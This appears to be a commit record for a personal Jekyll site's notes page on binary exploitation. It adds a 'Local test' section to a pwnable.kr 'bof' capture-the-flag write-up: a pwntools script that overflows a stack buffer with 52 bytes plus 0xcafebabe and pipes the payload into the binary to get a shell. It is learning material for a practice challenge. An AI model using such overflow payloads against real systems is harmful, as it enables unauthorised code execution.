

Before and after one commit to Connor-McCartney/Connor-McCartney.github.io, a Jekyll site: the page built from _pages/misc/pwn.md, in a window 1280 px wide and 900 px high, scrolled down 20991 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes.

Commit message:
Update pwn.md

````diff
--- a/_pages/misc/pwn.md
+++ b/_pages/misc/pwn.md
@@ -864,6 +864,24 @@ $ cat flag
 daddy, I just pwned a buFFer :)
 ```
 
+Local test:
+
+```
+[~/Desktop]
+$ cat payload.py
+from pwn import *
+import sys
+payload = b"A"*52 + p32(0xcafebabe)
+sys.stdout.buffer.write(payload)
+
+[~/Desktop]
+$ (python payload.py; cat)  | ./bof
+overflow me :
+
+whoami
+connor
+```
+
 
 # flag - pwnable.kr
 
````
